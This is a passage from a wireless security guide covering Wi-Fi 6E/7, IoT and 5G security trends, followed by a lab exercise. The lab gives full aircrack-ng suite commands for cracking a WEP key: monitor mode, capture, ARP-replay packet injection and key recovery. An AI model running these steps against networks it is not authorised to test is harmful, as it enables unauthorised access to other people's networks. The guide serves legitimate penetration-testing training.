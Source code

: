 
## Latest Wireless Security Trends (2024)

### Wi-Fi 6E and Wi-Fi 7 Security
```bash
# Wi-Fi 6E (6 GHz band) considerations
- Increased spectrum availability
- Better security due to WPA3 requirement
- Reduced interference
- Enhanced privacy features

# Wi-Fi 7 security enhancements
- Improved encryption algorithms
- Better key management
- Enhanced protection against quantum attacks
- Advanced threat detection
```

### IoT Wireless Security
```bash
# IoT device testing considerations
1. Default credential scanning
2. Firmware analysis
3. Communication protocol testing
4. Cloud service integration security
5. Update mechanism security
```

### 5G Security Considerations
```bash
# 5G wireless security aspects
- Network slicing security
- Edge computing vulnerabilities
- Enhanced encryption requirements
- New attack surfaces
- Privacy concerns
```

---

## Practical Exercises and Labs

### Lab 1: WEP Cracking Exercise
```bash
# Objective: Crack WEP key using aircrack-ng suite
# Setup: Create WEP-enabled access point for testing

# 1. Start monitor mode
airmon-ng start wlan0

# 2. Scan for WEP networks
airodump-ng wlan0mon

# 3. Capture WEP traffic
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep_lab wlan0mon

# 4. Generate traffic
aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h CC:DD:EE:FF:00:11 wlan0mon

# 5. Crack WEP key
aircrack-ng wep_lab-01.cap
```
